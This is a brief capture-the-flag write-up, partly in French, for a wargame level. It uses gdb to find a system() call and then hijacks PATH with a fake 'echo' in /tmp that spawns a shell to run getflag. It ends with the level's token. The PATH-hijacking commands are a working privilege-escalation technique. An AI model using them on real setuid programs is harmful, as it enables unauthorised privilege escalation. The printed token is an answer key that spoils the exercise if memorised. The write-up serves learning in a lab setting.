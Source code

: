 # level03 is an executable that contains the system function (you can check it with gdb or strace)
- ./level03
# gdb level03
- disas main
- we can see a call for the 'system function' 
- The command x/s is used to examine memory and display the contents as a string. Specifically:

x is the command to examine memory.
/s is a format specifier that tells GDB to interpret the memory content as a string (s stands for "string").
- x/s <address>


# When x/s 0x80485e0, It takes as a parameter on 0x80485e0: /usr/bin/env followed by echo Exploit me

# Since it uses echo, we'll create an executable with the same name, a fake 'echo'
- echo "/bin/sh -c 'getflag'" > /tmp/echo
- chmod 755 /tmp/echo
- export PATH=/tmp:$PATH (ajoute /tmp dans le path pour qu'il l'execute avant)
- ./level03


# Token obtained: we directly used 'getflag' thanks to system so no need to 'su flag03', go direct to su level04 with this token :
qi0maab88jeaj46qoumi7maus
